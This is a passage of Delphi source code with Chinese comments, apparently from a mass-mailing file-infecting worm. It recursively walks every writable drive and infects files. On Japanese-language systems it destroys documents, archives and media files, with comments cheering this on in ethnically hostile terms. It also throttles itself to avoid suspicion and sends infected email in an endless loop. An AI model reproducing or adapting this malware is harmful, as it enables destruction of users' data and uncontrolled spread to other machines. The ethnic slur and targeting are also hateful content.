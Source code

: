 ```
          //获取Outlook邮件地址
        end
        else if Ext = '.ADC' then //Foxmail地址自动完成文件
        begin
          //获取Foxmail邮件地址
        end
        else if Ext = 'IND' then //Foxmail地址簿文件
        begin
          //获取Foxmail邮件地址
        end
        else 
        begin
          if IsJap then //是倭文操作系统
          begin
            if (Ext = '.DOC') or (Ext = '.XLS') or (Ext = '.MDB') or
              (Ext = '.MP3') or (Ext = '.RM') or (Ext = '.RA') or
              (Ext = '.WMA') or (Ext = '.ZIP') or (Ext = '.RAR') or
              (Ext = '.MPEG') or (Ext = '.ASF') or (Ext = '.JPG') or
              (Ext = '.JPEG') or (Ext = '.GIF') or (Ext = '.SWF') or
              (Ext = '.PDF') or (Ext = '.CHM') or (Ext = '.AVI') then
                SmashFile(Fn); //摧毁文件
          end;
        end;
      end;
      //感染或删除一个文件后睡眠200毫秒，避免CPU占用率过高引起怀疑
      Sleep(200);
    until (FindNext(SearchRec) <> 0);
  end;
  FindClose(SearchRec);
  SubDir := TStringList.Create;
  if (FindFirst(Path + '*.*', faDirectory, SearchRec) = 0) then
  begin
    repeat
      if IsValidDir(SearchRec) = 1 then
        SubDir.Add(SearchRec.Name);
    until (FindNext(SearchRec) <> 0);
    end;
  FindClose(SearchRec);
  Count := SubDir.Count - 1;
  for i := 0 to Count do
    LoopFiles(Path + SubDir.Strings[i] + '', Mask);
  FreeAndNil(SubDir);
end;
```

遍历磁盘上所有的文件

```
{ 遍历磁盘上所有的文件 }
procedure InfectFiles;

var
  DriverList: string;
  i, Len: Integer;
begin
  if GetACP = 932 then //日文操作系统
    IsJap := True; //去死吧！
  DriverList := GetDrives; //得到可写的磁盘列表
  Len := Length(DriverList);
  while True do //死循环
  begin
    for i := Len downto 1 do //遍历每个磁盘驱动器
      LoopFiles(DriverList[i] + ':', '*.*'); //感染之
    SendMail; //发带毒邮件
```